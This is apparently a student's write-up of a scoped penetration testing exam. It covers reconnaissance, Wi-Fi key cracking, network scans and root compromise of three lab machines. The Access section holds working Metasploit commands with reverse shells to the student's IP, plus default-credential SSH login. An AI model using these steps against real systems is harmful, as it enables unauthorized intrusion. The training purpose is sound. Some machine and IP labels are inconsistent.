










# Professional Penetration Testing Exam - 80%
> my ip address: `10.10.10.174`

**Date:** 18/05/2026

| Time             | Exam Part | Grade           |
|------------------|-----------|-----------------|
| 14:00-15:00 (1h) | Theory    | 18/20 (90%)     |
| 15:00-18:00 (3h) | Practical | 56.7/60 (94.5%) |

## Theory (MCQ) - 20%
- [x] done (50 question)

## Practical - 60%
```
Rules of Engagement

The target network for the exam will be 10.10.10.0/24, any IP above (and including) 10.10.10.150 on this network is OUT OF BOUNDS so do not scan or attack 10.10.10.150 or above. Also any IP address below (and including) 10.10.10.100 is OUT OF BOUNDS so do not scan or attack 10.10.10.100 or below. You are only permitted to scan targets from the target network. Anyone found scanning, attacking or otherwise any part of the infrastructure will receive a score of zero for the practical exam, even if it’s accidental!!!
For the Wi-Fi part of the penetration test de-authenticating and packet injection are strictly not allowed. You will lose all wireless marks if you attempt to do this!!!
each student has own static ip address fot the practical exam: ip range - 10.10.10.150-236;
```

### Question 1: Reconnaissance (11.5/15%)

#### (a) The eshopworld.com domain wasn't always owned by the same company. What was listed as the source for delivery delays on the older eshopworld website in Oct 2006? (1/3%)
- **Tool Used:** `web.archive.org`
- **Answer:** `https://web.archive.org/web/20061030075047/http://www.eshopworld.com/` (_I didn't find the route, but only the page_)
- <details><summary>proof</summary>
  
  
  </details>

#### (b) Hackers don't follow the rules, and they love going places they are not meant to. Can you find the url of admin login page that eShopWorld is trying to hide from the search bot? (3%)
- **Tool Used:** `robots.txt` (`https://www.eshopworld.com/robots.txt`)
- **Answer:** `/wb-admin/`
- <details><summary>proof</summary>
  
  
  </details>

#### (c) What is the exact OS and Web server currently used to host the <u>www.rte.ie</u> website (1.5/3%)
- **Tool Used:** `Wappalyzer` or `WhatWeb`
- **Answer:**
  - Web Server: `Cloudflare`
  - OS: `hidden by cloudflare server` (_this question was not answered_)

#### (d) Your lecturer Phillip Fitzpatrick has a public profile on Facebook and X. What is his Facebook name (handle) and X handle. (3%)
- **Tool Used:** `googledorking`, `facebook.com` and `x.com`
- The answer, the links to the lecturer's personal social media profiles, is removed from this copy.

#### (e) Identify the IP address, hosting provider, and DNS records of <u>www.tudublin.ie</u> using only passive techniques. (3%)
1. **IP Address & DNS Records**
   - **Tool Used:** `nslookup.io`
   - **Answer:** `166.117.192.233`, `166.117.104.145`
2. **Hosting Provider**
   - **Tool Used:** `shodan.io`
   - **Answer:** `Amazon Cloud Provider`

### Question 2: Wireless (15/15%)

#### (a) What is the security protocol used by the WiFi network with ESSID Pentest Exam" and determine either the key or passphrase accordingly? (8%)
```bash
# start monitoring
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# get and crack a capture file (IVs)
sudo airodump-ng wlan0 --essid "Pentest Exam" --write capturefile
aircrack-ng capturefile-01.cap
```
|  |  |
|----------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------|
- **Tool Used:** `airodump-ng` and `aircrack-ng`
- **Security Protocol:** `WEP`
- **Key/Passphrase:** `F2:C7:BB:35:B9`
- [capturefile.cap](./wireless/wep/capturefile/capturefile.cap)

#### (b) What is the security protocol used by WiFi network from the wireless handshake capture wireless.cap and determine the key or passphrase accordingly? (7%)
```bash
# crack the handshake
aircrack-ng wireless.cap -w rockyou.txt
```
|  |  |
|-----------------------------------------------------------------------|------------------------------------------------------------------------------------------|
- **Tool Used:** `aircrack-ng` with `rockyou.txt` wordlist
- **Security Protocol:** `WPA`
- **Key/Passphrase:** `hammertime`
- [wireless.cap (resources)](./wireless/wpa/capturefile/wireless.cap)

### Question 3: Scanning (12/15%)

#### (a) What is the IP address of each active machine in scope on the target? (3%)
> 🔸 **Scope:** `10.10.10.101-149`
```bash
# ARP host discovery (no ports) in boundry scan
nmap -sn -PR 10.10.10.100-149 --exclude 10.10.10.100
```
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-18 15:38 +0100
Nmap scan report for 10.10.10.101
Host is up (0.0013s latency).
MAC Address: 08:00:27:31:8E:8F (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.10.10.102
Host is up (0.0017s latency).
MAC Address: 08:00:27:E8:01:5C (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.10.10.109
Host is up (0.0025s latency).
MAC Address: 08:00:27:2B:B2:C9 (Oracle VirtualBox virtual NIC)
Nmap done: 49 IP addresses (3 hosts up) scanned in 3.18 seconds
```
- **IP Address 1:** `10.10.10.101`
- **IP Address 2:** `10.10.10.102`
- **IP Address 3:** `10.10.10.109`
- <details><summary>proof</summary>

  
  </details>

#### (b) What is the exact operating system is running on each of the active machines? (3%)
```bash
nmap -O 10.10.10.101,102,109
```
- **Machine 1:** `Linux 14.04`
- **Machine 2:** `Linux 16.04`
- **Machine 3:** `Windows XP sp1`

#### (c) List all open ports and detailed service information for all open ports oin each machine (TCP and UPD). Show and explain to your instructor. (2/4%)
- **Tool Used:** `nmap -sV` (service version detection)
    ```bash
    # used
    nmap -sV 10.10.10.101,102,109
    
    # but had to use (`-p-` to scan all ports)
    nmap -sV -p- 10.10.10.101,102,109
    ```

#### (d) List ALL possible vulnerabilities (deted by vulnerability scanner) available on each targer machine. Show and explain this to your instructor. (4%)
| ](./scanning/nessus_report.png) | ](./scanning/openvas_report.png) |
|---------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------|
- **Tool Used:** Nmap, Nessus and OpenVAS
- [Nmap vuln scan report](./scanning/nmap/version_vuln_scan/) | [Nessus vuln scan report](./scanning/nessus_report/) | [OpenVAS vuln scan report](./scanning/openvas_report/)

### Question 4: Access (55/55%)

#### (a) Gain root access to machine 1 (easy) (15%)
> 🔹 **IP address:** `10.10.10.101`
```
# find the vulnerability
> OpenVAS vuln scan
  ↳ Critical (CVSS: 9.8)
    ↳ NVT: SSH Brute Force Logins With Default Credentials Reporting (vagrant:vagrant)
```
```bash
# SSH Default Credentials <User>:<Password>
# vagrant:vagrant
ssh vagrant@10.10.10.101

# Privilege Escalation
$ sudo -l
> (ALL : ALL) ALL
> (ALL : ALL) NOPASSWD: ALL

$ sudo su

# done (root)
```
<details>
<summary>proof</summary>



|  |  |
|----------------------------------------------------------------|----------------------------------------------------------------------------|
</details>

#### (b) Gain root access to machine 2 (medium) (15%)
> 🔹 **IP Address:** `10.10.10.109`

<b>ms03-026</b>
```
# find the vulnerability
> Nessus vuln scan
  ↳ 11808 - MS03-026: Microsoft RPC Interface Buffer Overrun (823980)
```
```bash
search ms03-026 -type:exploit
use windows/dcerpc/ms03_026_dcom
set PAYLOAD windows/meterpreter/reverse_tcp # default
set RHOST 10.10.10.109
set LHOST 10.10.10.174
run

# done (root)
C:\WINDOWS\system32>
```
<details>
<summary><b>ms17-010</b></summary>

> 🛑 false positive
```bash
# found with nmap vuln script scan, OpenVAS and Nessus also identified this one

msfconsole
search ms17-010 -type:exploit
use windows/smb/ms17_010_eternalblue
set PAYLOAD windows/x64/meterpreter/reverse_tcp # default
set RHOST 10.10.10.109
set LHOST 10.10.10.174
run

[-] 10.10.10.109:445 - The target is not vulnerable.
```
</details>
<details>
<summary><b>ms08-067</b></summary>

> 🛑 false possitive
```bash
# found with nmap vuln script scan, OpenVAS and Nessus also identified this one

msfconsole
search ms17-010 -type:exploit
use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp # default
set RHOST 10.10.10.109
set LHOST 10.10.10.174
run

# not working
```
</details>

#### (c) Gain root access to machine 3 (hard) (25%)
> 🔹 **IP Address:** `10.10.10.102`
```
# find the vulnerability
> OpenVAS vuln scan
  ↳ Critical (CVSS: 9.8)
    ↳ NVT: ProFTPD Backdoor Unauthorized Access Vulnerability (CVE-2010-20103)
```
```bash
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor # found this one
set PAYLOAD payload/cmd/unix/reverse
set RHOST 10.10.10.102
set LHOST 10.10.10.174
run

# done (root)
$ whoami
> root
```
